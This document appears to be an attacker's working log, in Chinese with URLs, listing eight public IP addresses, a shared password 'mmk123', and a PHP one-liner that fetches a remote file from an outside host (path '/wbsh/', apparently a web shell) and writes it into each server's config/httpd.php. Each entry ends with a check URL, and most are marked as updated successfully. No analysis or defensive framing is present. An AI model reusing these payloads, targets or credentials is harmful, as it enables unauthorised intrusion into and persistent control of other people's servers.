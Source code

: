 http://112.74.55.251:32/template/template_init.php |mmk123 
代码更新：0608 ✅
http://112.74.55.251:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.74.55.251:32/config/httpd.php?d=up

http://121.40.198.218/template/template_init.php |mmk123 
代码更新：0608 ✅
http://121.40.198.218/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://121.40.198.218/config/httpd.php?d=up

http://47.97.17.170/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.97.17.170/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.97.17.170/config/httpd.php?d=up

http://47.108.218.167/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.108.218.167/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.108.218.167/config/httpd.php?d=up

http://112.124.14.199/template/template_init.php |mmk123 
代码更新：0608 ✅
http://112.124.14.199/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.124.14.199/config/httpd.php?d=up

http://81.70.165.167/template/template_init.php |mmk123 
代码更新：0608 ✅
http://81.70.165.167/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://81.70.165.167/config/httpd.php?d=up

http://47.99.107.174/template/template_init.php |mmk123 连接失败

http://8.130.107.246/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.130.107.246/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.130.107.246/config/httpd.php?d=up
